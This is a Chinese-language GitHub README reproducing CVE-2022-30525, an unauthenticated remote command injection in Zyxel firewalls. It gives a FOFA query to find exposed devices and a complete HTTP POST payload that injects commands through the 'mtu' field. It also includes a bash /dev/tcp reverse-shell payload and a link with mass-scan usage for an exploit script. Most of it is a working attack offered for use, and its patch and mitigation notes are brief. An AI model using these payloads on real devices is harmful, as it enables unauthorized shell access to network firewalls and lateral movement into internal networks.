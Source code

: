 # CVE-2022-30525
Zyxel 防火墙远程命令注入漏洞（CVE-2022-30525）

# 0x01 漏洞简介

2022 年 5 月 12 日，Zyxel（合勤）发布安全公告，修复了其防火墙设备中未经身份验证的远程命令注入漏洞（CVE-2022-30525）。

该漏洞存在于某些Zyxel防火墙版本的 CGI 程序中，允许在未经身份验证的情况下在受影响设备上以`nobody`用户身份执行任意命令。

目前该漏洞的细节已经公开披露，且相应的 Metasploit 模块已经发布，成功利用可以实现文件修改和操作系统命令执行，以获得对网络的初始访问权限并实现横向移动到内部系统。



# 0x02 漏洞影响

| **受影响的型号**               | **受影响的固件版本**          | **补丁版本** |
| ------------------------------ | ----------------------------- | ------------ |
| USG FLEX 100(W)、200、500、700 | ZLD V5.00 -ZLD V5.21 Patch 1  | ZLD V5.30    |
| USG FLEX 50(W) / USG20(W)-VPN  | ZLD V5.10 - ZLD V5.21 Patch 1 | ZLD V5.30    |
| ATP系列                        | ZLD V5.10 - ZLD V5.21 Patch 1 | ZLD V5.30    |
| VPN系列                        | ZLD V4.60 - ZLD V5.21 Patch 1 | ZLD V5.30    |

# 0x03 FOFA语法

```
 body="USG FLEX 100"
```


# 0x04 漏洞复现

找一个站点，确认ZYXEL防火墙特征。

![image](https://user-images.githubusercontent.com/84888757/172675012-f4a4efd0-7d7d-4f8f-991b-f9a164b40fec.png)


访问https://xx.xx.xx.xx/ztp/cgi-bin/handler，修改为`post`方式，加入payload

## 4.1 **漏洞验证**

```
POST /ztp/cgi-bin/handler HTTP/1.1
Host: ip
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Connection: close
Content-Length: 130
 
{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":"; ping ***.dnslog.cn;","data":"hi"}
```

## 4.2 **反弹shell**

```
{"command":"setWanPortSt","proto":"dhcp","port":"4","vlan_tagged":"1","vlanid":"5","mtu":";bash -c 'exec bash -i &>/dev/tcp/xxx.xxx.xxx.xxx/9999 <&1';","data":"hi"}
```

## 4.3 利用工具

- 🔗 https://github.com/Henry4E36/CVE-2022-30525

用法

```
python3 CVE-2022-30525.py -u http://127.0.0.1

python3 CVE-2022-30525.py -f ip.txt
```


# 0x05 漏洞修复

厂商已发布补丁修复漏洞，用户请尽快更新至安全版本：ZLD V5.30。下载链接如下：
https://www.zyxel.com/support/download_landing.shtml

无法立即更新的用户，可以禁用对受影响产品的管理 Web 界面的 WAN 访问以缓解此漏洞。


# 0x06 参考

- https://www.rapid7.com/blog/post/2022/05/12/cve-2022-30525-fixed-zyxel-firewall-unauthenticated-remote-command-injection/

- https://www.henry4e36.top/index.php/archives/42.html

